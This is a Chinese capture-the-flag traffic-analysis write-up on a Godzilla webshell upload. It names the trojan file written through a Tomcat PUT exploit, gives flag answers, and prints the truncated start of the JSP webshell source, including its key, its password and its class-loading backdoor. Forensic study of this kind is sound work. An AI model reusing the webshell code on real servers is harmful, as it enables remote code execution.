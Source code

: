 # 哥斯拉 ekp 版本流量分析

## 1

> 黑客上传的木马文件名是什么？

已知是上传文件，所以直接排查 http 会话

![img](img/image_20241059-155921.png)

很明显的 Tomcat 漏洞利用，使用 PUT 协议写入 webshell

```flag
flag{.index.jsp}
```

## 2

> 黑客上传的木马连接密码是什么？

将攻击者植入的 webshell 源码提取

```java
<%!String xc = "9adbe0b3033881f8";
String pass = "mypass";
String md5 = md5(pass + xc);

class X extends ClassLoader {
    public X(ClassLoader z) {
        super(z);
    }

    public Class Q(byte[] cb) {
        return super.defineClass(cb, 0, cb.length);
    }
}

public static String md5(String s) {
```